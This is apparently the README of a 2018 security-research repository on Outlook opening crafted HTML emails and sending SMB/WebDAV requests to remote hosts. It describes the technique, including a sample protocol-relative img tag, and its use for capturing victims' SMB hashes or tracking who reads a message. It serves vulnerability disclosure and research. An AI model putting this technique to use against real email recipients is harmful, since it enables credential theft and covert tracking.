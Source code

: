 # The Outlook HTML Leak Test Project!

## What's in "./Schemes-List.xlsx"?

List of URI schemes that might work in Windows. These schemes/protocols can be useful in similar research to find new vulnerabilities or to bypass current protections.
It is interesting that opening this file using MS Office takes longer than usual that may suggest Excel is doing something on some of them. This is a great sign to find bugs/features!

## What's in "./OutlookMailApp/OutlookMailApp/resources/template.html"?

List of HTML tags that might send requests to other resources automatically or by user interaction.
This file has been generated based on the following sources:
* https://github.com/cure53/HTTPLeaks
* https://stackoverflow.com/questions/2725156/complete-list-of-html-tag-attributes-which-have-a-url-value


## Research and the Tales:

While I was working on an assessment, I received an HTML email in Outlook 2010 that contained an image tag similar to:
<img src="//example.com/test/image.jpg" >

I could see that Outlook was searching for something after opening that email and it took longer than usual to fully open it. I quickly realised that Outlook actually used the URL as “\\example.com\test\image.jpg” and sent “example.com” a SMB request.

Although it did not load the image even when the provided SMB path was valid, it could send my SMB hash to an arbitrary location. This attack did not work on Outlook 2016, however it made me start a small research project in trying different HTML tags that accept URIs with different URI schemes and special payloads.

I managed to test a list of known URI schemes with different targets by designing a quick (and dirty) ASP.NET application that used ASPOSE.Email (https://downloads.aspose.com/email/net) and Microsoft Office Interop libraries. This application generates readonly MSG files similar to the received or sent emails in Outlook. 
The cure53 HTTPLeaks project (https://github.com/cure53/HTTPLeaks) with minor changes was used as the HTML template to generate the emails. The dirty C# code, URI Schemes, formulas, and the HTML template used in this research can be found on this repository.

In order to reduce complications, Wireshark and Process Monitor of Sysinternals Suite were used to detect remote and local filesystem calls.

## Discovered Vulnerability in Outlook

Outlook sent external SMB/WebDAV requests upon opening a crafted HTML email. This could be abused to hijack a victim’s SMB hash or to determine if the recipient had viewed a message. 
This issue was exploited using Outlook default settings that blocked loading external resources such as image files.
These requests were sent immediately after opening an email. When SMB port was blocked, a WebDAV request on port 80 was sent. F
or more details and the fix, please refer to https://www.nccgroup.trust/uk/our-research/

### Identified payloads:

#### Remote Calls:
Although the “\\” pattern was blocked by Outlook, a number of other patterns and URI schemes were found that forced Outlook to send requests to remote servers.
The following table shows the identified vectors:

![Outlook Remote Calls](https://github.com/nccgroup/OutlookLeakTest/blob/master/images/remotecalls.png?raw=true)

#### Local Filesystem Calls:
The following URI schemes could also be used target the local filesystem that might be useful:

![Outlook Local Filesystem Calls](https://github.com/nccgroup/OutlookLeakTest/blob/master/images/localfscalls.png?raw=true)


## Copyright and License
OutlookLeakTest project is copyright 2018, NCC Group, and licensed under the Apache license (see LICENSE).